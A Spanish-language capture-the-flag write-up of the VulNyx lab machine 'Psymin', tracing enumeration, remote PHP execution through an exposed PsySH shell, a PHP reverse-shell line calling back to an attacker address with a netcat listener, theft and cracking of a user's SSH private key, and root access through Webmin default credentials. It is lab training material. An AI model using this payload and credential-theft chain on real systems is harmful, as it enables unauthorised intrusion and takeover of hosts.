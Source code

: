 ```yaml
---
title: 'Psymin'
description: 'Resolución de la máquina Psymin de Vulnyx.'
pubDate: 'Nov 10 2024'
heroImage: '/images/machines/psymin/psymin-hero.webp'
---
```


Bienvenidos a la resolución de la máquina **Psymin** de la plataforma VulNyx, una máquina sencilla e interesante. Es mi primer writeup y más que mostrar la solución de manera directa quiero mostrar mi enfoque y el por qué de mis decisiones.

![psymin machine info](/images/machines/psymin/psymin.webp)
## Enumeración

Primero veremos los puertos que estan abiertos y que servicios están expuestos:

```bash
sudo nmap -p- -sS -Pn -n --open --min-rate 5000 10.0.2.10 -vvv -oG allPorts
...
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
...
```

Ahora usaremos scripts básicos de reconocimiento para los puertos abiertos:

```bash
nmap -p22,80,3000 -sCV 10.0.2.10 -vvv -oN targeted

# Nmap 7.95 scan initiated Thu Nov  7 19:23:26 2024 as: nmap -p22,80,3000 -sCV -vvv -oN targeted 10.0.2.10
Nmap scan report for 10.0.2.10
Host is up, received syn-ack (0.00052s latency).
Scanned at 2024-11-07 19:23:32 -05 for 153s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzUvGOaZF4gJoYBGR4NrMZOj32x98uVDUQ0dY0RENRdIyokD8RvJG8g9g71aoh/20m4mcEEdSyp+eE9ABu1kwk=
|   256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrNZ9AQg+cgX4w0wabsDTAVeo9/VWThsF5efc2OzsFo
80/tcp   open  http    syn-ack nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
3000/tcp open  ppp?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     ^@^L^@^@^P^@^@^@^@^@^@^@^@^@Psy Shell v0.12.4 (PHP 8.2.20 
|     cli) by Justin Hileman
|     OPTIONS / RTSP/1.0
|   DNSVersionBindReqTCP: 
|     ^CPsy Shell v0.12.4 (PHP 8.2.20 
|     cli) by Justin Hileman
|   GenericLines, NULL: 
|     Psy Shell v0.12.4 (PHP 8.2.20 
...
```

## Servicios Web

Los servicios que más me llaman la atención son `HTTP` en el puerto 80 y 3000. Digo que el puerto 3000 ejecuta un servicio web ya que veo en el resultado de los scripts de reconocimiento varias cabeceras HTTP como `GET / HTTP/1.0` u `OPTIONS / HTTP/1.0`.

![port 80](/images/machines/psymin/port80.webp)

Revisando el puerto 80 no encuentro nada interesante ni en el código fuente o haciendo _fuzzing_ de directorios o archivos. Tambien revisé si existián los archivos `robots.txt` o `sitemap.xml` sin encontrar ninguno de estos.

![port 3000](/images/machines/psymin/port3000.webp)

Investigando un poco, veo que [psysh](https://psysh.org/) es un debugger con consola interactiva para PHP así que hago una prueba ejecutando código arbitrario PHP cambiando el método de solicitud ya que veo que es una entrada en la sesión de **Psy Shell**.

Usando **burpsuite** cambiamos el método de solicitud por código PHP a ver qué pasa, enviamos la solicitud al _repeater_ para poder modificar nuestra solicitud.

![Initial Burp Request](/images/machines/psymin/burpRequest.webp)

Como vimos en nuestro navegador los campos que se ejecutan como "comandos" en **psy shell** son el método `GET / HTTP/1.1` y los encabezados `User-Agent` y `accept`, no cambiaría `host` debido a que la solicitud ya no se haría a este equipo.

Voy a reemplazar la linea del método de solicitud por código arbitrario PHP como el siguiente:

```php
// Linea original
GET / HTTP/1.1

// Código arbitrario
$fecha="date";
```

![arbitrary php](/images/machines/psymin/php-arbitrary-code.webp)

Ahora que sé que puedo ejecutar código PHP quiero obtener una reverse shell la cual generaré con [Reverse Shell Generator](https://www.revshells.com/), existen muchas opciones para generar una reverse shell con PHP, pero algunas funciones no se pueden ejecutar, la opción que me funcionó fue con `proc_open`.

```php
$sock=fsockopen("10.0.2.9",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Antes de enviar la solicitud con este código PHP, pondremos a la escucha el puerto 4444 que definimos en `fsockopen` y cuya IP es la de nuestra máquina atacante.

```bash
nc -nlvp 4444
```

Ahora enviamos la solicitud con **burpsuite** y obtendremos una reverse shell.

![reverse shell php](/images/machines/psymin/reverse-php.webp)

Una vez recibida la conexión hacemos un [tratamiento de la tty](https://invertebr4do.github.io/tratamiento-de-tty/) y tendremos la primer _flag_ en `$HOME/user.txt`.

```bash
cat $HOME/user.txt
e12853......
```

Ahora quiero mantener acceso al usuario alfred y en su `$HOME` veo que tiene el directorio `.ssh`  con su `id_rsa`, la copio de manera local y lo uso para acceder a la máquina por ssh.

> Es importante que `id_rsa` tenga los permisos 600, puedes hacerlo con `chmod 600 id_rsa`.

```bash
ssh alfred@10.0.2.10 -i id_rsa
Enter passphrase for key 'id_rsa':
```

Me pide una clave para acceder, entonces vamos a crear un hash con [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) y ese hash posteriormente lo crackearemos con [John The Reaper](https://github.com/openwall/john).

```bash
ssh2john.py id_rsa > alfred.hash
john --wordlist=/usr/share/rockyou.txt --fomat=SSH alfred.hash

# terminando el comando anterior
john --show alfred.hash
id_rsa:alfredo
```

La _passphrase_ de la clave privada contenida en `id_rsa` es `alfredo`, entonces ahora podemos conectarnos con el `id_rsa` y proporcionando la clave `alfredo`.

```bash
ssh alfred@10.0.2.10 -i id_rsa
```

Ahora tenemos acceso permanente a este usuario.

## Escalada de privilegios

Podemos listar el archivo `/etc/passwd` para ver que otros usuarios existen, pero no veo ninguno, así que buscamos convertirnos en **root**.

Lo primero que se me ocurre al escalar privilegios son tres cosas. La primera es ver si tengo algún binario o comando que pueda ejecutar como otro usuario y moverme lateral o verticalmente con `find` o `sudo`.

```bash
find / -perm -4000 2>/dev/null
sudo -l
```

No obtengo buenos resultados con `find` y el comando `sudo` no existe.

En segundo lugar busco procesos que se estén ejecutando en segundo plano y/o de manera periodica.

```bash
#!/bin/bash

# procmon script de s4vitar
old_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -v -E "command|procmon"
        old_process=$new_process
done
```

No encuento nada interesante (asumo que no existen tareas cron), así que por último veo qué servicios existen y se están ejecutando.

```bash
systemctl --type=service | grep "running"
```

No veo servicios fuera de lo común a excepción de `webmin.service`. Busco en internet qué hace este servicio y veo que es una herramienta de configuracion o administracíon de un sistema, al cual se puede acceder mediante **http**. Leyendo la documentación veo que se ejecuta en el puerto `10000`. 

Ahora veo qué puertos están en escucha, pero no están expuestos.

```bash
ss -tunlp
```

Noto que un puerto TCP está a la escucha de manera local  `127.0.0.1:10000`, ahora haremos un _port fordwarding_ hacia nuestro equipo y veremos si efectivamente es `webmin.service`.

```bash
ssh -L 10000:127.0.0.1:10000 alfred@10.0.2.10 -i id_rsa
```

Ahora desde mi navegador ingreso la url `localhost:10000` y efectivamente es webmin.

![webmin login](/images/machines/psymin/webmin-login.webp)

Probaremos las credenciales por defecto en primer lugar y si no, veremos qué hacer con otras credenciales. Revisando en el proceso de instalación, para [acceder al panel de webmin](https://www.liquidweb.com/blog/webmin-ubuntu/#Access%20the%20Webmin%20Panel) al finalizar la instalación, las credenciales por defecto son `root:root`. Efectivamente, estas son las credenciales e ingresamos al panel.

Como nos permite administrar un equipo remoto mediante una interfáz gráfica, dentro de nuestro panel de trabajo existe una terminal interactiva que nos permite ingresar comandos en el equipo remoto.

La terminal se ubica en **Tools > Terminal** y al acceder ya somos el usuario **root**. Finalmente podemos leer el archivo `$HOME/root.txt`.

```bash
cat /root/root.txt
8968.....
```

Si quieres tener un acceso permanente, puedes aprovechar el `id_rsa` del usuario root y usarlo para acceder al equipo sin proporcionar contraseña.

Y bueno jeje, eso fué la máquina **Psymin**, espero les haya gustado este _writeup_ y si tienes alguna recomendación, sugerencia, correción o algo que quieras decirme ve a puedes escribirme cualquiera de mis redes sociales en [contacto](/contact).

